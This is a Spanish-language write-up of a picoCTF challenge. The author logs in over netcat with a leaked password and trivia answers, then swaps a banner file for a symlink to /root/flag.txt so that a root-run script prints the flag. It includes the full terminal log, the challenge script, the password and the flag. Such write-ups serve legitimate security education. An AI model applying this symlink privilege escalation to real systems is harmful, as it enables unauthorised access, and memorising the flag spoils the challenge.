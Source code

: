 ## Descripción 
Can you abuse the banner?
Additional details will be available after launching your challenge instance.
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 56602`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 50798`. From the above information abuse the machine and find the flag in the /root directory.

Hint:
1. Do you know about symlinks?
2. Maybe some small password cracking or guessing
## Solución 1

Nos conectamos al servidor remoto usando netcat de la dirección y nos da una contraseña, nos conectamos a la segunda dirección y nos pide la contraseña y que contestemos unas preguntas, después de contestarlas accedemos al usuario "player".
Exploramos el sistema de archivos y encontramos que en el directorio /root había un archivo llamado flag.txt, pero no teníamos permisos para leerlo directamente y se leía directamente el banner, entonces borramos el banner y pusimos que leyera directamente el flag.txt y al conectarnos de nuevo al servidos y pedirnos la contraseña, lee el flag.txt en lugar del banner.

```
omarsalazar@DESKTOP-H97NF1C:~$ nc tethys.picoctf.net 62175
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
defcon
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ pwd
pwd
/home/player
player@challenge:~$ cd /root
cd /root
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
player@challenge:/root$ cat script.py
cat script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ cd ..
cd ..
player@challenge:/$ ls
ls
bin   challenge  etc   lib    media  opt   root  sbin  sys  usr
boot  dev        home  lib64  mnt    proc  run   srv   tmp  var
player@challenge:/$ cd /home/player
cd /home/player
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ls
ls
text
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ car banner
car banner
-su: car: command not found
player@challenge:~$ cat banner
cat banner
cat: banner: Permission denied
player@challenge:~$ ^Z
[6]+  Stopped                 nc tethys.picoctf.net 62175
omarsalazar@DESKTOP-H97NF1C:~$ nc tethys.picoctf.net 62175
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}

what is the password?
^Z
[7]+  Stopped                 nc tethys.picoctf.net 62175
omarsalazar@DESKTOP-H97NF1C:~$

flag: picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}
```

## Referencias 
1. https://www.futurelearn.com/info/courses/linux-for-bioinformatics/0/steps/201767#:~:text=A%20symlink%20is%20a%20symbolic,directory%20in%20any%20file%20system.
2. https://www.google.com/search?q=What+is+the+top+cyber+security+conference+in+the+world%3F&rlz=1C1UEAD_esMX1059MX1061&oq=What+is+the+top+cyber+security+conference+in+the+world%3F&gs_lcrp=EgZjaHJvbWUyBggAEEUYOTIICAEQABgWGB4yCAgCEAAYFhgeMggIAxAAGBYYHjIICAQQABgWGB4yBwgFEAAY7wUyBwgGEAAY7wUyBwgHEAAY7wUyCggIEAAYgAQYogQyBwgJEAAY7wXSAQc3MjlqMGo5qAIAsAIA&sourceid=chrome&ie=UTF-8
3. https://www.google.com/search?q=the+first+hacker+ever+was+known+for+phreaking(making+free+phone+calls)%2C+who+was+it%3F&rlz=1C1UEAD_esMX1059MX1061&oq=the+first+hacker+ever+was+known+for+phreaking(making+free+phone+calls)%2C+who+was+it%3F&gs_lcrp=EgZjaHJvbWUyBggAEEUYOTIGCAEQABge0gEHNTYwajBqN6gCALACAA&sourceid=chrome&ie=UTF-8